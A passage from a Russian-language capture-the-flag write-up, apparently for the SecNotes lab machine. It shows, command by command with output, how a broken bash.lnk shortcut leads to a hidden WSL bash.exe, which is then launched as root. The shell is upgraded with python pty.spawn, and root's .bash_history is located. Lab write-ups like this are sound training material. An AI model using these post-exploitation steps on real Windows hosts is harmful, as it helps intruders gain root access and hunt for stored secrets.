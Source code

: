 Поэтому, логично предположить, что копать нужно именно в эту сторону.

## 1-й способ: bash.exe
Указывает вышеупомянутый ярлык на `C:\Windows\System32\bash.exe`, которого в системе попросту нет:
```text
C:\Users\tyler\Desktop>type bash.lnk
type bash.lnk
*************
*** мусор ***
*************
Application@v(        i1SPSjc(=OMC:\Windows\System32\bash.exe91SPSmDpHH@.=xhH(bP
```

```text
C:\Users\tyler\Desktop>C:\Windows\System32\bash.exe
C:\Windows\System32\bash.exe
'C:\Windows\System32\bash.exe' is not recognized as an internal or external command,
operable program or batch file.
```

Поэтому линка сломанная, и нам придется искать нужный бинарник вручную:
```text
C:\Users\tyler\Desktop>where /R C:\ bash.exe
where /R C:\ bash.exe
C:\Windows\WinSxS\amd64_microsoft-windows-lxss-bash_31bf3856ad364e35_10.0.17134.1_none_251beae725bc7de5\bash.exe
```

Ну а дальше все банально: запускаем баш, призываем PTY-шелл (стандартно, как под Линуксами) и смотрим `.bash_history`, который по счастливой случайности оказывается непустым:
```text
C:\Users\tyler\Desktop>C:\Windows\WinSxS\amd64_microsoft-windows-lxss-bash_31bf3856ad364e35_10.0.17134.1_none_251beae725bc7de5\bash.exe
C:\Windows\WinSxS\amd64_microsoft-windows-lxss-bash_31bf3856ad364e35_10.0.17134.1_none_251beae725bc7de5\bash.exe
mesg: ttyname failed: Inappropriate ioctl for device
whoami
root

id
uid=0(root) gid=0(root) groups=0(root)

python -c 'import pty; pty.spawn("/bin/bash")'
root@SECNOTES:~# ls -la
ls -la
total 8
drwx------ 1 root root  512 Jun 22  2018 .
drwxr-xr-x 1 root root  512 Jun 21  2018 ..
---------- 1 root root  398 Jun 22  2018 .bash_history
-rw-r--r-- 1 root root 3112 Jun 22  2018 .bashrc
-rw-r--r-- 1 root root  148 Aug 17  2015 .profile
drwxrwxrwx 1 root root  512 Jun 22  2018 filesystem
```
